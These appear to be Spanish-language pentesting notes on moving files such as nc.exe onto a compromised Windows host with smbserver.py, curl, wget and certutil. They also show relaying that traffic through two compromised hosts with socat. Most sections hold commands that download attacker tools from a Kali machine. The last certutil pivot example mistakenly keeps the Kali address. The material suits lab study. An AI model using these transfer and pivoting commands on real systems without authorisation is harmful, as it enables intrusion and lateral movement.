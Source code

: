 
**---------------------------------------SMB SERVER--------------------------------------

En el caso de que nos topemos con una máquina Windows con SMB activo y queramos transferirle algún binario, podemos montarnos desde la Kali un servidor Samba.

```
smbserver.py smbFolder $(pwd) -smb2support
```

Con el anterior comando montamos el servidor Samba en la kali, y creamos un recurso compartido el cual está en la carpeta actual, llamado smbFolder y le damos soporte para smb2.

***Si la Windows tiene conexión directa con nuestra Kali:

```
dir \\IPkali\smbFolder
```

***Si la Windows no tiene conexión directa con nuestra Kali (tiramos de socat), imaginemos que hay dos máquinas entre nuestra kali y la Windows.*

*Windows* = 172.18.0.128    y     192.168.100.130

*Comprometida2* = 192.168.100.128      y       10.10.0.129

*Comprometida1* = 10.10.0.128       y       192.168.111.38

*Kali* = 192.168.111.106

Primero compartimos la carpeta Samba desde la Kali:

```
smbserver.py smbFolder $(pwd) -smb2support
```

Luego desde la Comprometida2 nos ponemos a la escucha con socat para redirigir el tráfico a la Comprometida1 al puerto 445, enviándolo al nodo de la Comprometida1 que comunica con la Comprometida2. 

```
./socat TCP-LISTEN:445,fork,reuseaddr TCP:10.10.0.128:445
```

Luego desde la Comprometida1 nos ponemos a la escucha con socat para redirigir el tráfico a la Kali al puerto 445 (SMB), enviándolo al nodo de la Kali que comunica con la Comprometida1.

```
./socat TCP-LISTEN:445,fork,reuseaddr TCP:192.168.111.106:445
```

Ahora desde la Windows (en un cmd) podemos listar los recursos del smbFolder de la kali (haciendo la petición al nodo de la Comprometida2 que comunica con la Windows)

```
dir \\192.168.100.128\smbFolder
```

Y descargar lo que sea necesario (exploit, netcat, etc...)

```
copy \\192.168.100.128\smbFolder\nc.exe C:\Windows\Temp\nc.exe
```

*RECORDAR QUE EXISTE NETCAT DE 32 Y DE 64 BITS, USAR EL NECESARIO.*


**------------------------------------------CURL-------------------------------------------

Lo primero es montar un servidor http en python donde estén los archivos/carpetas que queramos compartir.

```
python3 -m http.server 80
```

***Si tenemos conexión directa con el objetivo, desde la máquina objetivo:

```
curl -O http://IPkali/archivo
```

***Si NO tenemos conexión directa y tenemos que tirar de túneles y socat.

Imaginemos que tenemos dos hosts entre la Kali y el Objetivo.

*Objetivo* = 172.18.0.128    y     192.168.100.130

*Comprometida2* = 192.168.100.128      y       10.10.0.129

*Comprometida1* = 10.10.0.128       y       192.168.111.38

*Kali* = 192.168.111.106

Desde la máquina Kali levantamos el servidor con python.

```
python3 -m http.server 80
```

Desde la máquina Comprometida2 usamos socat para redirigir el tráfico a la Comprometida1 por el nodo que las comunica.

*USO EL PUERTO 8000 PARA SOCAT SUPONIENDO QUE ESTÉ LIBRE, SINO USAR OTRO.*

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:10.10.0.128:8000
```

Desde la máquina Comprometida1 usamos socat para redirigir el tráfico a la Kali por el nodo que las comunica al puerto donde está el servidor, en este caso al puerto 80.

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:192.168.111.106:80
```

Desde la máquina objetivo ejecutamos el siguiente comando, para hacerle la petición a la Comprometida2 por el nodo que las comunica y que socat rediriga el tráfico hasta la kali para descargar el archivo.

```
curl -O http://192.168.100.128:8000/archivo
```


**-----------------------------------------WGET-------------------------------------------

Lo primero es montar un servidor http en python donde estén los archivos/carpetas que queramos compartir.

```
python3 -m http.server 80
```

***Si tenemos conexión directa con el objetivo, desde la máquina objetivo:

```
wget http://IPkali/archivo
```

***Si NO tenemos conexión directa y tenemos que tirar de túneles y socat.

Imaginemos que tenemos dos hosts entre la Kali y el Objetivo.

*Objetivo* = 172.18.0.128    y     192.168.100.130

*Comprometida2* = 192.168.100.128      y       10.10.0.129

*Comprometida1* = 10.10.0.128       y       192.168.111.38

*Kali* = 192.168.111.106

Desde la máquina Kali levantamos el servidor con python.

```
python3 -m http.server 80
```

Desde la máquina Comprometida2 usamos socat para redirigir el tráfico a la Comprometida1 por el nodo que las comunica.

*USO EL PUERTO 8000 PARA SOCAT SUPONIENDO QUE ESTÉ LIBRE, SINO USAR OTRO.*

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:10.10.0.128:8000
```

Desde la máquina Comprometida1 usamos socat para redirigir el tráfico a la Kali por el nodo que las comunica al puerto donde está el servidor, en este caso al puerto 80.

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:192.168.111.106:80
```

Desde la máquina objetivo ejecutamos el siguiente comando, para hacerle la petición a la Comprometida2 por el nodo que las comunica y que socat rediriga el tráfico hasta la kali para descargar el archivo.

```
wget http://192.168.100.128:8000/archivo
```

*Existe una versión de wget para windows la cual por defecto en kali se encuentra en:

/usr/share/windows-resources/binaries/wget.exe


**---------------------------------CERTUTIL WINDOWS----------------------------------

Lo primero es levantar el servidor con python en la máquina Kali.

```
python3 -m http.server 80
```

***Si tenemos conexión directa con el objetivo:

```
certutil.exe -urlcache -f http://IPkali/archivo archivofinal
```

De ésta manera descargamos un archivo de la kali y de nombre le ponemos archivofinal (y se guarda en la carpeta actual).

Si queremos guardarlo en Temp o x carpeta con permisos de escritura para user actual:

```
certutil.exe -urlcache -f http://IPkali/archivo C:\Temp\archivofinal
```

***Si NO tenemos conexión directa y tenemos que tirar de túneles y socat.

Imaginemos que tenemos dos hosts entre la Kali y el Objetivo.

*Objetivo* = 172.18.0.128    y     192.168.100.130

*Comprometida2* = 192.168.100.128      y       10.10.0.129

*Comprometida1* = 10.10.0.128       y       192.168.111.38

*Kali* = 192.168.111.106

Desde la máquina Kali levantamos el servidor con python.

```
python3 -m http.server 80
```

Desde la máquina Comprometida2 usamos socat para redirigir el tráfico a la Comprometida1 por el nodo que las comunica.

*USO EL PUERTO 8000 PARA SOCAT SUPONIENDO QUE ESTÉ LIBRE, SINO USAR OTRO.*

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:10.10.0.128:8000
```

Desde la máquina Comprometida1 usamos socat para redirigir el tráfico a la Kali por el nodo que las comunica al puerto donde está el servidor, en este caso al puerto 80.

```
./socat TCP-LISTEN:8000,fork,reuseaddr TCP:192.168.111.106:80
```

Desde la máquina objetivo ejecutamos el siguiente comando, para hacerle la petición a la Comprometida2 por el nodo que las comunica y que socat rediriga el tráfico hasta la kali para descargar el archivo.

```
certutil.exe -urlcache -f http://IPkali/archivo C:\Temp\archivofinal
```
